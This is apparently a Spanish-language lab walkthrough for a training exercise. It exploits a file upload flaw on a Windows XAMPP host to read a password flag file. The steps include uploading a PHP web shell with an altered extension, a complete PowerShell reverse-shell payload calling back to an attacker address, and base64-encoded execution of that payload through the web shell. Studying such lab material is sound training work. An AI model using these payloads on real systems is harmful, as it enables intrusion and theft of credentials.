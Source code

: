 # Walk: Laboratorio 1 de 2

## Fecha: 21/01/2025
## Host: Windows
## IP: 192.168.205.189

---

## Objetivo
Follow the steps above on VM #1 and exploit the file upload vulnerability. 
The flag is located in the **C:\xampp\passwords.txt** file as a password for the mountainadmin user.

---
## Herramientas
1. curl
2. pwsh
3. nc
---
## Procedimiento y comandos
1. Paso 1: Entramos en la url **http://192.168.205.189/meteor/ y cargamos un backdor con la extension alterada. (pHP)
	- **cp /usr/share/webshells/php/simple-backdoor.php simple-backdoor.pHP ** (copiamos en el directorio de trabajo 9.3 el backdoor)
	- Subimos el archivo y probamos ejecutar el comando **dir**
	- ** curl -i "http://192.168.205.189/meteor/upload.php/simple-backdoor.pHP?cmd=dir"**
	- Resultado positivo
2. Paso 2: Obtenemos un Reverse Shell
	- **nc -nlvp NC_PORT**
	- **pwsh**
	- **$Text = '$client = New-Object System.Net.Sockets.TCPClient("MI_IP",NC_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'**
	- **$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)**
	- **$EncodeText = [Convert]::ToBase64String($Bytes)**
	- **$EncodeText**
 	- Devuelve un codigo base64
	- **curl http://192.168.205.189/meteor/uploads/simple-backdor.pHP?cmd=powershell%20-enc%20base64**
3. Paso 3: Obtenemos el flag:
	- Navegamos hasta C:\xampp
	- ** type passwords.txt **
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

